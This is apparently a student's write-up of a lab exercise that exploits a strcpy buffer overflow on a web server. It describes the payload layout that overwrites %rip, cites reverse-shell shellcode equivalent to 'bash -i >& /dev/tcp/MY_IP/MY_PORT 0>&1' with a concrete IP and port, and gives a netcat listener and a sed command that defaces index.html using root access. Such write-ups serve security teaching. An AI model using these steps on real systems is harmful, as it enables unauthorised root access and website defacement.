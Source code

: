 In this run, MY_IP is "129.104.230.166" and MY_PORT is 5555. Besides, I opened my port for tcp on port 5555 (on my own iptables).

We use a buffer overrun : "buf", which is 256 bytes long, is copied via strcpy into "greeting_text", only 128 bytes long.
We can thus override the %rip register with the adress of "buf", to execute the payload stored at this address.

The format of the string copied into buffer is :

buf : payload + 'AAAAAAA' + buf adress + NULL-byte
	   (118)       (22)        (6)          (1)      < 256 bytes

No need of NOP-slide in this exercise.
The opcode was taken from a quick google search "tcp remote shell opcode". Here is the link of the one used, and modified http://shell-storm.org/shellcode/files/shellcode-857.php

It basically corresponds to a syscall of : bash -i >& /dev/tcp/MY_IP/MY_PORT 0>&1 


By launching  >nc MY_IP MY_PORT -lnv, we thus have a remote shell with root privileges, and it is then easy to modify the website.

I used this command to modify the website in one go :

>sed -i 's/<\/body>/\r\nNAME\r\n<\/body>/' /var/www/html/index.html

Which appends the name NAME exactly in the right place.
